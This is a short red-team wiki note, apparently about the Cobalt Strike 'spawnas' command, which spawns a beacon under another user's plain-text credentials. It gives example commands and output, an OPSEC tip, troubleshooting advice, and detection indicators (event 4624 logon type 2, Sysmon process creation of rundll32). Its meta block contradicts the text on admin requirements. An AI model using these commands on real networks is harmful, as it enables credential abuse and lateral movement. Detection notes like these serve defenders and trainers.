 # SpawnAs
This will spawn a new beacon process using the plain-text credentials of another user. This includes a new logon session from interactive logon type which allows you to use the privs on the machine itself.
It does not required local admin privileges.

```cmd
beacon> spawnas EDU\doe P4ssw0rd1. tcp-4444-local
[+] established link to child beacon: 10.10.17.231
```
#OPSEC It creates a user profile on disk.

⚠️ WARNING  
Do not run this from a directory where the target user does not have read access, or from a SYSTEM beacon
> 
> beacon> spawnas EDU\doe Passw0rd1 tcp-4444-local
> [-] could not run C:\Windows\system32\rundll32.exe as EDU\doe: 267
> [-] Could not connect to target
> 
> `cd` to a another directory like `C:\` and try again.

## Detection
* Event `4624: An account was successfully logged on` but with a logon type of `2` (LOGON32_LOGON_INTERACTIVE). 
    * Executing user = TargetUserName
    * Impersonated user = TargetOutboundUserName.
* Sysmon event 1 (Process Create) because Cobalt Strike spawns rundll32 by default.
>event.type: process_start and process.name: rundll32.exe

## Tools
########
########


```meta
ttp: T1000
requirements: admin
results: 
description: 
``` 
